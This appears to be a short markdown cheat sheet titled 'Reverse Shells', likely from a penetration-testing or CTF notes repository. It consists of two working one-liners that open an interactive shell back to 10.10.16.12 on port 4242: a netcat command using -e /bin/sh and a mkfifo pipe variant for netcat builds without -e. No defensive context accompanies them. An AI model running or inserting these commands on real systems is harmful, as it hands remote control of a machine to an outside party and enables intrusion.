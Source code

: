 # Reverse Shells

## NC witht he -e option
```
$nc -e /bin/sh 10.10.16.12 4242
```


## NC when NC doesnt work
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 10.10.16.12 4242 >/tmp/f
```